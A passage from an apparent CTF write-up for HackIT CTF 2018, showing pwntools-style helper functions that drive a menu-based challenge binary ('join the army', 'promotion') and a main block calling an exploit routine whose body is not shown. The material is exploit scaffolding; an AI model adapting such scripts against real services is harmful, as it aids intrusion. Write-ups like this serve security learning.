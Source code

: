 ```python
    
    r.recvuntil('promotion\n')
    
def join_the_army(name, height, weight, answer_length, description):
    global r
    
    menu()
    r.sendline('1')
    r.sendlineafter('name: ', name)
    r.sendlineafter('height: ', str(height))
    r.sendlineafter('weight: ', str(weight))
    r.sendlineafter('answer: ', str(answer_length))
    if answer_length >= 0:
        r.sendlineafter('description: ', description)
    else:
        r.recvline()
    
    
def print_details():
    global r
    
    menu()
    r.sendline('2')
    return [r.recvline() for _ in range(4)]
    

def promotion(answer):
    global r
    
    menu()
    r.sendline('3')
    r.sendlineafter('answer : ', answer)
    r.recvline()
    

        
if __name__ == '__main__':
    is_remote = True
    if len(sys.argv) > 1:
        if sys.argv[1] in ['-d', '-D']:
            is_remote = False
    exploit(is_remote)
```
I can only show you the local exploit because they didn't leave the servers up.  
[6](https://github.com/Thankjnv/CTF-Writeups/blob/master/HackIT-CTF-2018/Images/6.png)  
